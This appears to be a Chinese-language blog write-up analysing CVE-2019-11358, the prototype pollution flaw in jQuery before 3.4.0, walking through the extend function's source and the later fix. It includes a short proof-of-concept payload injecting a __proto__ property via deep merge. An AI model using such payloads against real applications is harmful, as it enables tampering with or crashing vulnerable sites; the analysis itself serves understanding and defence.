


# CVE-2019-11358漏洞分析

Author: H3rmesk1t

Data: 2022.04.24

# 漏洞信息
`CVE-2019-11358`原型污染漏洞: `3.4.0`版本之前的`jQuery`存在一个原型污染漏洞, 由攻击者控制的属性可被注入对象, 之后或经由触发`JavaScript`异常引发拒绝服务, 或篡改该应用程序源代码从而强制执行攻击者注入的代码路径.

<div align=center></div>

`PoC`如下:

```javascript
$.extend(true, {}, JSON.parse('{"__proto__": {"exploit": "h3rmesk1t"}}'))

console.log(exploit);
```

# 漏洞分析
查看`3.3.1`版本的`JQuery`源码, 漏洞点在在`src/core.js`文件中的`extend`函数. 如果该函数的第一个参数为布尔型的`true`, 合并操作就是深拷贝模式.

```javascript
jQuery.extend = jQuery.fn.extend = function() {
	var options, name, src, copy, copyIsArray, clone,
		target = arguments[ 0 ] || {},
		i = 1,
		length = arguments.length,
		deep = false;

	// Handle a deep copy situation
	if ( typeof target === "boolean" ) {
		deep = target;

		// Skip the boolean and the target
		target = arguments[ i ] || {};
		i++;
	}

    ......

};
```

经过`if`函数判断后, 进入`for`循环, `options`取传入的参数`arguments[i]`, 接着将`options`遍历赋值给`copy`, 即`copy`外部可控.

```javascript
for ( ; i < length; i++ ) {

    // Only deal with non-null/undefined values
    if ( ( options = arguments[ i ] ) != null ) {

        // Extend the base object
        for ( name in options ) {
            src = target[ name ];
            copy = options[ name ];

            ......

        }
    }
}
```

接着判断`copy`是否是数组, 若是, 则调用`jQuery.extend()`函数, 该函数用于将一个或多个对象的内容合并到目标对象, 这里是将外部可控的`copy`数组扩展到`target`数组中; 若`copy`非数组而是个对象, 则直接将`copy`变量值赋值给`target[name]`.

```javascript
// Recurse if we're merging plain objects or arrays
if ( deep && copy && ( jQuery.isPlainObject( copy ) ||
    ( copyIsArray = Array.isArray( copy ) ) ) ) {

    if ( copyIsArray ) {
        copyIsArray = false;
        clone = src && Array.isArray( src ) ? src : [];

    } else {
        clone = src && jQuery.isPlainObject( src ) ? src : {};
    }

    // Never move original objects, clone them
    target[ name ] = jQuery.extend( deep, clone, copy );

// Don't bring in undefined values
} else if ( copy !== undefined ) {
    target[ name ] = copy;
}
```

此时, 如果将`name`设置为`__proto__`, 则会向上影响`target`的原型, 进而覆盖造成原型污染. 而`target`数组时取传入的参数`arguments[0]`: `target = arguments[ 0 ] || {}`.

`target`变量可以通过外部传入的参数`arguments`数组的第一个元素来设置`target`数组的键`name`对应的值为`__proto__`, 而`options`变量可通过外部传入的参数`arguments[i]`进行赋值, `copy`变量又是由`options`遍历赋值的, 进而导致`copy`变量外部可控, 最后会将`copy`合入或赋值到`target`数组中, 因此当`target[__proto__] = 外部可控copy`时, 即存在原型污染漏洞.

# 漏洞复现

```javascript
var jquery = document.createElement('script');
jquery.src = 'https://code.jquery.com/jquery-3.3.1.min.js';

let exp = $.extend(true, {}, JSON.parse('{"__proto__": {"exploit": "h3rmesk1t"}}'));
console.log({}.exploit);
```

<div align=center></div>

# 漏洞修复
`jQuery`在`3.4.0`版本里修复了该漏洞, 通过判断属性中是否有`__proto__`, 如果有就跳过, 不合并.

<div align=center></div>